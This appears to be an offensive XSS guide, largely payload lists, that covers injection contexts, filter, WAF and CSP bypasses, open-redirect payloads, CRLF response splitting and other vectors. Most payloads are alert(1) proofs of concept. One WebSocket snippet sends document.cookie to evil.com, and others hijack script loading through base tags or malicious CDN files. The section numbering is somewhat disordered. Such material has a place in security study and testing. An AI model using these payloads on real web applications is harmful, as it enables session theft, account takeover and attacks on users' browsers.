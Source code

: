 # Comprehensive Guide on Cross-Site Scripting (XSS) and Its Bypasses
Cross-Site Scripting (XSS) is a widespread vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This guide covers the types of XSS, methodologies for detection and exploitation, contexts of injection, and advanced techniques for bypassing protections.

1. Introduction to XSS
XSS attacks enable attackers to inject malicious scripts into web pages. These scripts can execute in the context of a user's browser, allowing attackers to steal information, hijack sessions, or perform actions on behalf of the user.

1.1 Types of XSS
Stored XSS: The malicious script is permanently stored on the target server, such as in a database or comment field.
Reflected XSS: The malicious script is reflected off a web server, typically via a URL query parameter.
DOM-Based XSS: The vulnerability exists in the client-side code rather than the server-side code, and the attack payload is executed as a result of modifying the DOM environment.

2. Methodology for Detecting XSS
2.1 Identify Injection Points
   
Check if any value you control (parameters, path, headers, cookies) is reflected in the HTML or used by JavaScript code.

# Determine Reflection Context

Raw HTML: Can you create new HTML tags or use attributes/events that support JavaScript?


Inside HTML Tag: Can you exit to raw HTML or create events/attributes to execute JavaScript?


Inside JavaScript Code: Can you escape the <script> tag or string context to execute arbitrary JavaScript?


4. Contexts for XSS Injection
Raw HTML Context
When your input is reflected in the raw HTML of a page, you can exploit it by injecting HTML tags that execute JavaScript. Common tags include:
```
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)">
<svg onload=alert(1)>
```
3.2 Inside HTML Tag Attributes
If your input is reflected within an attribute value, consider the following approaches:

Escape Attribute and Tag: 
```
"><img src=x onerror=alert(1)>
```

Event Handlers: If escaping the tag is not possible, use attributes like onfocus, onclick: " autofocus onfocus=alert(1) x="
JavaScript Protocol: If within href, use javascript:: href="javascript:alert(1)"
3.3 Inside JavaScript Code
If the input is reflected within JavaScript code, you need to break out of the string or the <script> tag to execute arbitrary code:

Escape String: "; alert(1); "
Template Literals: If input is in a template literal: `${alert(1)}`
4. Advanced Techniques and Bypasses
4.1 Content Security Policy (CSP) Bypass
CSP is a security measure that helps prevent XSS by specifying trusted content sources. However, it can be bypassed if not correctly configured.


4.2 Polyglot XSS
Polyglot payloads can function in multiple contexts (HTML, JS, CSS) to bypass input filters.

4.2.1 Example Polyglot Payload
```
"><svg onload=alert(1)><script>alert(1)</script>
4.3 Dangling Markup - HTML Scriptless Injection
```
If you cannot create executing HTML tags, you might abuse dangling markup, which involves placing incomplete tags that break the current HTML context.

4.3.1 Example Dangling Markup
```
<a href="/">Click here</a><b 
<script>alert(1)</script>
```
4.4 JSON-based XSS
When web applications parse JSON data and directly insert it into the DOM without proper sanitization, it can lead to XSS.

4.4.1 Example JSON-based XSS
```
{"name": "<img src=x onerror=alert(1)> "}
```
4.5 Bypassing Filters
Using techniques like UTF-7 encoding, breaking out of existing tags, or leveraging uncommon payloads.

Example UTF-7 Encoding
```
<iframe src="data:text/html;charset=utf-7,%2BADw-script%2BAD4-alert('XSS')%2BADw-/script%2BAD4-"></iframe>
```
4.6 Using HTML Entities
Encoding the payload using HTML entities to bypass filters that block certain characters.

4.6.1 Example HTML Entities
```
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```
4.7 Null Byte Injection
Using null bytes to bypass filters or terminate strings early.

4.7.1 Example Null Byte Injection
```
<img src="x" onerror="alert(1)";%00" src="y">
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
<iframe src="javascript:alert(1)%00"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%00"></iframe>
<a href="javascript:alert(1)%00">Click me</a>
<form action="javascript:alert(1)%00" method="post"><input type="submit"></form>
<img src="x" onerror="alert(1)";%00" src="y">
```
4.8 Case Variation
Altering the case of HTML tags and attributes to bypass case-sensitive filters.

Obfuscation Techniques
```
// Obfuscation with white spaces
<scr\0ipt>alert(1)</scr\0ipt>

// Breaking up keywords
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>

// Using concatenation
<scr\+ipt>alert(1)</scr\+ipt>
```

Unexpected Input Variations
```
// Inline event handlers
<svg><a href="javascript:alert(1)">click</a></svg>

// Injecting into attributes
<input type="text" value="``><svg onload=alert(1)>">
```

4.8.1 Example Case Variation
```
<Svg OnloAd=alert(1)>
```
4.9 Using Backticks in JavaScript
Bypassing filters by using backticks in JavaScript for template literals.

4.9.1 Example Using Backticks
```
<script>let a = `alert(1)`</script>
```
4.10 Chained XSS
Combining multiple injection points to achieve a successful XSS attack.

4.10.1 Example Chained XSS
Injecting part of the payload in one input and another part in a different input to form a complete attack.

5. Exploiting DOM XSS
DOM XSS occurs when a script on the page modifies the DOM based on user input, potentially leading to the execution of malicious scripts.

5.1 Finding and Exploiting DOM XSS
Identify Sinks: Look for functions or methods (e.g., innerHTML, document.write) that render user-controlled input.
Control Flow: Understand how user input flows through the application to these sinks.
Payload Construction: Craft payloads that exploit these sinks.
5.1.1 Example DOM XSS Payload
```
<input oninput="document.getElementById('output').innerHTML = this.value">
<input value="<img src=x onerror=alert(1)>">
```
6. Debugging Client-Side JavaScript
When working with complex XSS payloads, debugging client-side JavaScript can help understand how input is processed and reflected.

6.1 Tools for Debugging
Browser Developer Tools: Use the console, breakpoints, and step through the JavaScript code to understand the application flow and find XSS injection points.
7. Mitigations and Best Practices
7.1 Input Validation and Sanitization
Ensure all user inputs are validated and sanitized before being processed or rendered.

Bypassing Filters with HTML Entities
```
<svg onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
<img src=x onerror=& #x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

Bypassing Filters with Null Bytes
Null byte injection can terminate strings early or bypass certain filters by injecting null characters.

```
<img src="x" onerror="alert(1)";%00" src="y">
```

# Open Redirect Exploits

Basic Open Redirect to XSS

// Basic payload, JavaScript code is executed after "javascript:"
javascript:alert(1)

Bypassing "javascript" Word Filter with CRLF
```
java%0d%0ascript%0d%0a:alert(0)
```
Abusing Bad Subdomain Filter
```
javascript://sub.domain.com/%0Aalert(1)
```

JavaScript with "://"
```
javascript://%250Aalert(1)
```

```
// Variation with query
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
```
Other Variations
```
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```
Open Redirect by Uploading SVG Files
Using SVG files to perform open redirects can be effective, especially when the application allows file uploads.
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
```

Client-Side Prototype Pollution to XSS
Prototype pollution in JavaScript occurs when an attacker can modify the properties of Object.prototype. This can lead to XSS if these properties are used in sensitive operations.

// Prototype pollution payload
Object.prototype.polluted = 'polluted';
If the application uses a polluted object property in a dangerous way, this can lead to XSS:

```
var obj = {};
alert(obj.polluted); // Outputs: polluted
```

# How to Bypass Internal Filtering for XSS
Bypassing internal filtering mechanisms such as Web Application Firewalls (WAFs) and input sanitization requires a deep understanding of how these filters operate and the techniques that can be used to circumvent them. This guide provides an in-depth look at various methods to bypass internal filtering mechanisms for XSS attacks.

Internal filters and WAFs are designed to prevent malicious inputs by inspecting, sanitizing, or blocking suspicious content. Common filtering techniques include:

Blacklisting: Blocking known malicious patterns or keywords.
Whitelisting: Allowing only specific safe inputs.
Encoding: Converting special characters to their HTML entities.
Normalization: Simplifying input to a consistent form for easier inspection.

Techniques for Bypassing Filters
2.1 Encoding and Decoding
Using various encoding methods can help bypass filters that don't decode inputs before inspection.

URL Encoding
```
%3Cscript%3Ealert(1)%3C/script%3E
```
Double URL Encoding
```
%253Cscript%253Ealert(1)%253C/script%253E
```
HTML Entities
```
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```
Unicode Encoding
```
\u003Cscript\u003Ealert(1)\u003C/script\u003E
```
Case Variation
Altering the case of HTML tags and attributes can bypass filters that are case-sensitive.
```
<ScRiPt>alert(1)</ScRiPt>
<Img sRc=x OnErRoR=alert(1)>
```
Comment Insertion
Inserting comments within the payload can break up patterns that the filter is looking for.
```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```
Using Null Bytes
Null byte injection can terminate strings early or bypass certain filters.
```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```
Breaking Up Keywords
```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
```
Using Concatenation
```
<scr\+ipt>alert(1)</scr\+ipt>
```
Leveraging Browser Parsing Quirks
Different browsers may interpret malformed HTML or JavaScript in ways that can be exploited.
```
<scr<script>ipt>alert(1)</scr</script>ipt>
```
Incomplete Tags
```
<svg><a href="javascript:alert(1)">click</a></svg>
```
Inserting White Spaces and Line Breaks
Using white spaces and line breaks to bypass filters.

```
<scr\0ipt>alert(1)</scr\0ipt>
<svg
onload=alert(1)>
```
Combining Techniques
Combining multiple bypass techniques to create a payload that evades detection.

```
<scr\0ipt>alert(1)</scr\0ipt>
%3Cscript%3E%61lert(1)%3C/script%3E
<scr\+ipt>alert(1)%00</scr\+ipt>
```
3. Real-World Examples
3.1 URL Encoding and Decoding
Using URL encoding to bypass filters that do not decode inputs before inspection.


Combining case variation and comment insertion to bypass case-sensitive filters.

```
<ScRiPt>alert(1)</ScRiPt>
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```
Null Byte Injection
Using null bytes to terminate strings early or bypass certain filters.

```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```
Obfuscation and Concatenation
Using obfuscation and concatenation to avoid detection by filters.

```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
<scr\+ipt>alert(1)</scr\+ipt>
```


# Understanding CSP
CSP works by allowing website owners to define a whitelist of trusted sources for content such as scripts, styles, images, and more. This is done through the Content-Security-Policy HTTP header. Key directives include:

default-src: The default policy for loading content types.
script-src: Defines trusted sources for JavaScript.
style-src: Defines trusted sources for CSS.
img-src: Defines trusted sources for images.
2. Common CSP Misconfigurations
Misconfigured CSP policies are often the root cause of bypasses. Common issues include:

Allowing unsafe-inline or unsafe-eval in script-src.
Overly permissive whitelists.
Failing to cover all possible directives, leaving certain content types unprotected.

# Bypassing CSP

JSONP (JSON with Padding) allows data to be fetched from a different domain using a <script> tag. If the JSONP endpoint is not properly secured, it can be exploited to execute arbitrary JavaScript.

Overly permissive CSP headers, such as those allowing unsafe-inline, can be exploited to run inline scripts directly.
```
<script nonce="random-nonce">alert(1)</script>
```

Inline Script Allowances
When unsafe-inline is allowed, or if there is an oversight allowing inline scripts, attackers can inject their payload directly into inline scripts.

Data URIs
Data URIs can sometimes be used to bypass CSP if they are allowed in the policy.
```
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
```

# Exploiting Script Gadgets
Script gadgets are existing pieces of code on a website that can be exploited to perform unintended actions. This is particularly effective if unsafe-inline or unsafe-eval is used.

Exploitation
Find an existing inline script that can be manipulated.
Inject code that modifies the behavior of the script.

Content Injection via Whitelisted CDNs
If a Content Delivery Network (CDN) is whitelisted, and the attacker can upload content to that CDN, they can inject malicious scripts.

Exploitation
Upload a malicious script to cdn.example.com.
Include the script on the target site:
```
<script src="https://cdn.example.com/malicious.js"></script>
```

Subresource Integrity (SRI) Bypass
SRI is used to ensure that resources hosted on third-party servers have not been tampered with. However, if SRI is not used properly, it can be bypassed.

Exploitation
Host a script on a trusted domain without SRI.
Include the script:
```
<script src="https://trusted.com/script.js"></script>
```
Mutation XSS
Mutation XSS exploits the way browsers handle dynamic content changes. If CSP allows unsafe-inline, attackers can inject payloads that mutate the DOM in unexpected ways.

Exploitation:
```
<div><img src=x onerror="alert(1)"></div>
<script>
document.querySelector('div').innerHTML = '<img src=x onerror="alert(1)">';
</script>
```

Using WebSockets
WebSockets can sometimes be used to exfiltrate data or execute JavaScript if allowed by CSP.

Exploitation:
```
var ws = new WebSocket("wss://evil.com/socket");
ws.onopen = function() {
  ws.send(document.cookie);
};
```

CSP Nonce Reuse
If the CSP nonce is reused or predictable, it can be exploited to run malicious scripts.

Exploitation
Predict or capture the nonce value.
Use the nonce to execute a script:

```
<script nonce="captured-nonce">alert(1)</script>
```

Example of a Secure CSP Header
Here’s an example of a secure CSP header that mitigates most XSS attacks:
```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random-nonce'; style-src 'self' 'nonce-random-nonce'; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self';
```
# CRLF Injection to XSS

CRLF injection (Carriage Return Line Feed) is a vulnerability that occurs when an attacker can inject CRLF characters into an application, typically resulting in the manipulation of HTTP headers or log files. This guide explores how CRLF injection can be exploited to perform XSS attacks.

1. Understanding CRLF Injection
CRLF injection vulnerabilities occur when an application improperly handles user input, allowing the injection of CR (Carriage Return, \r, %0d) and LF (Line Feed, \n, %0a) characters. This can lead to:

Manipulation of HTTP headers
Injection into logs
HTTP response splitting

Basic CRLF Injection
CRLF injection can be used to inject new headers or modify the existing ones by breaking the intended structure of the HTTP response.

GET /vulnerable.php?param=value%0d%0aInjected-Header: injected_value HTTP/1.1

In this example, Injected-Header: injected_value would be treated as a new header.

CRLF Injection to XSS
By leveraging CRLF injection, an attacker can inject malicious content, including scripts, into the HTTP response, potentially leading to XSS.

3.1 Injecting Scripts via HTTP Response Splitting
HTTP response splitting occurs when CRLF injection allows the creation of additional HTTP responses. This can be exploited to insert scripts directly into the response body.

Example
Assume a vulnerable application includes user input directly in HTTP headers. An attacker can inject CRLF characters followed by a script tag.
GET /vulnerable.php?param=value%0d%0aContent-Length:%2023%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1


URL Redirection and CRLF Injection
Another approach is to use CRLF injection to manipulate redirection headers and include XSS payloads.

Consider an application that redirects users based on input parameters. An attacker can inject CRLF characters to terminate the location header and include a script.
GET /redirect.php?url=http://example.com%0d%0aLocation:%20http://attacker.com/xss.html HTTP/1.1

Log Injection
CRLF injection can also be used to manipulate server logs, potentially leading to XSS when logs are viewed in an insecure application.

An attacker injects a script into log entries:
GET /vulnerable.php?param=value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

Advanced CRLF Injection Techniques
4.1 Double CRLF Injection
Using multiple CRLF sequences to break the HTTP response in more complex scenarios.

GET /vulnerable.php?param=value%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

Hybrid Injection
Combining CRLF injection with other techniques such as parameter pollution or path traversal to enhance the attack.

GET /vulnerable.php?param1=value1&param2=value2%0d%0aSet-Cookie:%20session=malicious_value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

CRLF injection is a powerful technique that can lead to severe security vulnerabilities, including XSS. Understanding how to exploit and mitigate CRLF injection is crucial for securing web applications. By employing proper input validation, header handling, and security policies, developers can protect their applications from these attacks.

# Other Vulnerabilities leading to XSS
PDF Generation Vulnerabilities
 Dynamic PDF Content Injection
When generating PDFs dynamically from user input, malicious content can lead to XSS.
```
// Vulnerable PDF generation code
$pdf->writeHTML($_POST['user_input']);
```

XML Injection
XML data that includes user input can be manipulated to include malicious scripts.
```
<!-- Vulnerable XML data -->
<user>
  <name><?php echo $_POST['name']; ?></name>
</user>
```

XPath Injection Leading to XSS
XPath injection vulnerabilities can be exploited to retrieve sensitive data and potentially inject XSS.

```
// Vulnerable XPath query
$query = "//user[name/text()='" . $_POST['name'] . "']";
$result = $xpath->query($query);
```

Unsafe Use of innerHTML
Using innerHTML to insert user input into the DOM can lead to XSS.
```
document.getElementById('output').innerHTML = user_input;
```

Exploiting URL Fragments
User-controlled fragments in URLs can be manipulated to inject scripts.
```
// Vulnerable code using location.hash
var fragment = location.hash.substring(1);
document.getElementById('output').innerHTML = fragment;

// If an attacker controls the URL
http://example.com#<img src=x onerror=alert(1)>
```

Misconfigured Content-Type Headers
Misconfigured Content-Type headers can cause browsers to interpret data as executable scripts.
```
// Response with wrong Content-Type
Content-Type: text/html

{"user": "<script>alert(1)</script>"}
```

Injecting Malicious Frames
Injecting malicious content into iframe sources can lead to XSS.
```
<iframe src="<?php echo $_GET['page']; ?>"></iframe>

// if an attacker submits
http://example.com/page.php?page=http://malicious.com
```

Injecting Base Tags  
If script tags and event handler attributes are blogged you can try to leverage base tags for XSS  
```
//lets say the site has a script tag like this
<script src="static/js/context.js"/>
//the attacker could inject
<base href="https://attacksite.com">
//and host their own static/js/context.js. note: the injection point must be above the targetted script
```
Exploiting SQL errors  
if you see SQL errors, they are often not sanitized. This means they are worth checking for reflected xss. This doesn't only apply to SQL specifically but its the context I've seen this most

Exploiting WebAssembly
WebAssembly (Wasm) code that includes user input can be manipulated to execute malicious scripts.
```
WebAssembly.instantiateStreaming(fetch('module.wasm'), { env: { userInput: user_input } });
```
